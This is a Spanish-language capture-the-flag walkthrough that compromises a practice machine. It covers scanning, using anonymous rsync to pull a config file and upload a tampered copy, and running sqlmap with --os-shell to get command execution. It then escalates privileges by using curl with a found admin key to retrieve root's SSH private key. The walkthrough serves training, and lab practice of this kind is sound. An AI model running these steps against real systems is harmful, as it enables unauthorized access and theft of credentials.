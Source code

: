 ### Tags: `rsync` `sqlmap` `getcap`

# Escaneo (*22, 80, 139, 445*)

```css
sudo nmap -p- --open -sSCV --min-rate 4000 -vvv -n -Pn <IP> -oN escaneo
````

![image](https://github.com/user-attachments/assets/b5443b93-8748-44d6-9843-71d2a06dde6c)


# Port80 / Gobuster

Como vimos arriba en el reporte del escaneo la web es un *ubuntu Default Page* por ende tiramos de Gobuster

```ruby
gobuster dir -u http://<IP>/ -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,php,html --no-error
```

Encontramos este directorio:

![image](https://github.com/user-attachments/assets/7e47c4c7-3b94-4b8d-95b9-3e2c77e181cd)

Si vamos en la web nos dice **403 Forbidden** y cuando hacemos `Ctrl + u` nos dice esto otro:

![image](https://github.com/user-attachments/assets/0aba8e1a-53d9-4dff-9216-6ee95cd55637)

Esto significa que actualmente estamos en el **entorno de producción** y tenemos que encontrar una manera de ir al entorno de producción. Para ello podemos consultar otros servicios. Entonces tenemos ``Rsync y 'Rsync`` se usa para **transferir** y **sincronizar** archivos entre una computadora y un disco duro externo y entre computadoras en red comparando los tiempos de modificación y los tamaños de los archivos. 
Lo que vamos a hacer ahora es verificar loa archivos del directorio `conf` y se hace de esta manera:

```ruby
 rsync -av rsync://<IP>/
```

![image](https://github.com/user-attachments/assets/3b03ee10-1fbf-4ee4-822f-ae331a0319bd)

Ahora nos metemos dentro de `Conf`

```ruby
rsync -av rsync://<IP>/Conf
```

![image](https://github.com/user-attachments/assets/143f82fd-de88-4b48-8b9e-cf4534e8d426)

Ahora lo que hacemos es **copiarnos** todos los archivos a nuestra máquina y verifiquemos si podemos obtener algo

```ruby
rsync -av rsync://<IP>/Conf ./mi_Conf
```

![image](https://github.com/user-attachments/assets/48cd2430-dead-4aeb-a32d-14d8672f6d84)

Observando los distintos archivos, en `webapp.ini` encontramos credenciales de un **TomCat** que esta en `prod`

![image](https://github.com/user-attachments/assets/1a9bac4d-f2b5-46f5-b887-523659d05f1f)

Entonces lo que hacemos es cambiarlo a `dev` y enviarlo otra ves con el archivo cambiado 

```ruby
nano webapp.ini   #cambiar a dev
rsync -av webapp.ini rsync://<IP>/Conf/webapp.ini
```

![image](https://github.com/user-attachments/assets/073bb231-b8ba-46e9-911b-e5f0176fd0f5)

Ahora si recargamos la pagina en `/admin` podemos visualizar la web y no nos da el 403 de antes

![image](https://github.com/user-attachments/assets/a40d9cf5-1edc-48e5-9075-007c15add7d8)

# SQLMap

Capturamos la petición con Burp y lo guardamos para jugar con `sqlmap`
- `-dbs` enumere todas las bases de datos disponibles
- `--risk 3` nivel de riesgo (técnicas más agresivas y potencialmente más ruidosas)
- `--level 5` nivel de profundidad de las técnicas de explotación
- `--os-shell` Le indica a SQLmap que intente obtener un shell de sistema operativo en el servidor remoto

```ruby
sudo sqlmap -r SQL_burp -dbs --risk 3 --level 5 --os-shell 
```

Una ves nos dio la `os-shell` no entablamos una ReverShell de esta forma

![image](https://github.com/user-attachments/assets/8b500aaa-a9af-4bbd-afab-6b09be1bf00c)

![image](https://github.com/user-attachments/assets/d307da36-fa03-473f-bbb4-2f8cabe9bbcd)


# Escalada **ROOT**

Tenemos la primera flag

![image](https://github.com/user-attachments/assets/63efa394-6cdc-4d36-8188-f87a3b2b0f7f)

Haciendo un `getcap -r / 2>/dev/null` tenemos capibility (**cap_net_raw+ep**) indica que el archivo tiene el bit de ejecución elevado (**ep**) y la capibility **cap_net_raw** asignada.

![image](https://github.com/user-attachments/assets/8acaf11c-26f0-49a6-b899-ea459a9bee17)

Lo que hacemos es tirar un `LinPeas` y observamos esto:

![image](https://github.com/user-attachments/assets/23a8f327-409a-4951-9962-67426f514288)

Entonces si hacemos un `curl http://127.0.0.1:1027/?admin=ScadfwerDSAd_343123ds123dqwe12` obtenemos la id_rsa de `root`

![image](https://github.com/user-attachments/assets/94254f5a-5311-43d2-bbc1-c55a0b4e42fb)

Nos conectamos por **ssh** y listo

![image](https://github.com/user-attachments/assets/88055320-ca7a-4678-9a78-959013395f8a)







